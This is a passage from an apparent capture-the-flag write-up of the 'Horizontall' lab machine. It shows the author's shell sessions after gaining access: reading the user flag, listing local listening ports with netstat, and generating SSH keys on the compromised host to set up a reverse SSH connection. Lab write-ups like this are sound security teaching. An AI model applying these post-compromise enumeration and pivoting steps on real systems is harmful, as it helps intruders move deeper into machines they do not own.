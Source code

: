 
#### User flag
```
strapi@horizontall:~/myapi$ cd /home
cd /home

strapi@horizontall:/home$ ls
ls
developer

strapi@horizontall:/home$ cd developer
cd developer

strapi@horizontall:/home/developer$ ls
ls
composer-setup.php  myproject  user.txt

strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
0325789ed8df79cde2679ecc8f10d209
```

After looking around the system and falling into rabbit-holes for like 30 minutes I found an open port on the local system.

```
strapi@horizontall:~$ netstat -ln
netstat -ln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```

The MySQL server on port 3306 didn't contain any useful information so the next logical step was to create a reverse connection using SSH. 

#### Creating the keys on the victim machine
```
strapi@horizontall:~/.ssh$ ssh-keygen -t rsa -C "random comment"
ssh-keygen -t rsa -C "random comment"
Generating public/private rsa key pair.
Enter file in which to save the key (/opt/strapi/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:rWJqYvxvL5Ktiz3IsbuMdPBaoAr5n6R+M7Rigxixc5k random comment
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|                 |
|                 |
|.        .       |
| = o    S .      |
|=.E .    .       |
|=O O.+o .        |
```